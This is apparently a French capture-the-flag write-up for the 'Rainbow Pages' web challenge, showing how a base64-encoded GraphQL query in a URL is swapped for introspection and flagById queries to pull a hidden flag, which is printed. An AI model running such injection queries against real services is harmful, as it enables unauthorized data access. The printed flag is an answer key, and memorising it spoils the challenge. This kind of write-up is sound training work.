

# Rainbow Pages - 25 pts


# Énoncé 
>Nous avons développé une plateforme de recherche de cuisiniers. Venez la tester!
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5006/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge est un des premiers challenges WEB, et porte sur une injection graphQL.


## Résolution

C'est parti ! Dans un premier temps, j'ai jeté un oeil à la page web, on ne remarque rien de particulier, j'effectue une première requête pour voir ce qu'il se passe :



Nous avons donc une requête qui s'effectue sur le champ Name.

En interceptant la requête avec burp, on remarque qu'elle est construite ainsi :

```
GET /index.php?search=eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIleSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= HTTP/1.1
```

En décodant le base64, cela donne : 

```
{ allCooks (filter: { firstname: {like: "%y%"}}) { nodes { firstname, lastname, speciality, price }}}
```
On se rend alors compte que la requête COMPLETE passe par l’URL, on devrait donc pouvoir y injecter ce qu'on veut. Après quelques recherches sur la technologie utilisée (graphQL) on trouve des requêtes à passer pour en apprendre plus.
Cette requête devrait nous permettre de lister le schéma de la base, avec le nom et la description de chaque requête disponible :

```
{ __schema { queryType { fields { name description }}}}
```

On envoie donc cette requête encodée en base64 et on obtient ce qu’on veut, l’architecture, avec des champs intéressants :

```
{"data":{"__schema":{"queryType":{"fields":[{"name":"query","description":"Exposes the root query type nested one level down. This is helpful for Relay 1 which can only query top level fields if they are in a particular form."},{"name":"nodeId","description":"The root query type must be a `Node` to work well with Relay 1 mutations. This just resolves to `query`."},{"name":"node","description":"Fetches an object given its globally unique `ID`."},{"name":"allCooks","description":"Reads and enables pagination through a set of `Cook`."},{"name":"allFlags","description":"Reads and enables pagination through a set of `Flag`."},{"name":"cookById","description":null},{"name":"flagById","description":null},{"name":"cook","description":"Reads a single `Cook` using its globally unique `ID`."},{"name":"flag","description":"Reads a single `Flag` using its globally unique `ID`."}]}}}}
```
On a une requête FlagById qui devrait nous servir, mais on ne peut pas y faire de requête pour le moment. Je fais une requête sur allFlags afin de récupérer le/les id avec la commande :

```
{ allFlags { nodes { id }}}
```

qui nous retourne : 

```
{"data" : {"allFlags" : {"nodes" : [{"id":1}]}}}
```

Il n'y a qu'un seul flag, qui a pour id 1. On doit effectuer une dernière requête avant, qui nous permet de lister les champs disponibles dans la table "Flag" :

```
{ __type(name: "Flag") { name fields { name }}} 
```

Cette commande nous donne l'indication qu'il existe un champ "flag". On effectue finalement une requête sur flagById en récupérant le champ flag, qui devrait nous donner le flag de validation :

```
{ flagById (id:1) { flag }}
```

**FLAG :  _FCSC{1ef3c5c3ac3c56eb178bafea15b07b82c4a0ea8184d76a722337dca108add41a}_**
